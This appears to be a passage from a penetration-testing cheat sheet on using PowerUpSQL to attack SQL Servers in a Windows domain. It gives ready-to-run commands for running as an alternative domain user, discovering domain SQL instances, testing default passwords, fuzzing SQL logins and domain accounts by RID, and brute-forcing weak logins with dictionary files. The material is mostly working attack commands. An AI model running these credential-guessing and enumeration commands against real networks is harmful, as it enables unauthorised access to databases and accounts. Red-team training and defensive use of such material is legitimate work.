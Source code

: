 #### Alternative domain user

```powershell
# PowerUpSQL
# OS Authentication Level: Alternative Domain User
runas /noprofile /netonly /user:domain\user PowerShell.exe
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose

# Get a list of domain SQL servers that can be logged into using an alternative domain account from a non domain system.
runas /noprofile /netonly /user:"CYBERCORP\STUDENT1"  PowerShell.exe  
Import-Module PowerUpSQL.psd1
Get-SQLInstanceDomain -Verbose -DomainController "CYBERCORP-DC.CYBERCORP.LOCAL" -Username "CYBERCORP\STUDENTI1" -password "PASSWORD" | Get-SQLConnectionTestThreaded -Verbose -Threads 15
```

### Password Guessing

Discover domain SQL Servers and determine if they are configured with default passwords used by common 3rd party applications based on the instance name (it covers 41 application specific default SQL Server instances, users and passwords):

```powershell
# PowerUpSQL
Get-SQLInstanceLocal | Invoke-SQLAuditDefaultLoginPw -Verbose
Get-SQLInstanceDomain | Invoke-SQLAuditDefaultLoginPw -Verbose
```

It is possible to create a user list using the following methods:

- Enumerates SQL Server Logins based on login id using SUSER_NAME() and only the Public role:

	```powershell
	# PowerUpSQL
	Get-SQLFuzzServerLogin -Instance "SQLServer1\Instance1" -Verbose
	```

- Enumerates **domain groups**, **computer accounts**, and **user accounts** based on domain RID using SUSER_SNAME() and only the Public role. Note: In a typical domain 10000 or more is recommended for the EndId. (Blindly enumerate domain users and group associated with the SQL Server domain with least privilege SQL login):

	```powershell
	# PowerUpSQL
	Get-SQLFuzzDomainAccount -Instance "SQLServer1\Instance1" -StartId 500 -EndId 10000
	```

- Enumerate all SQL Logins as least privilege user and test username as password (Custom user/password lists can also be provided):
	
	```powershell
	# PowerUpSQL
	Invoke-SQLAuditWeakLoginPw -Verbose -Instance "SQLServer1\Instance1"
	Invoke-SQLAuditWeakLoginPw -Verbose -Instance "SQLServer1\Instance1"  -UserFile "C:\dict\users.txt" -PassFile "C:\dict\passwords.txt"
	```
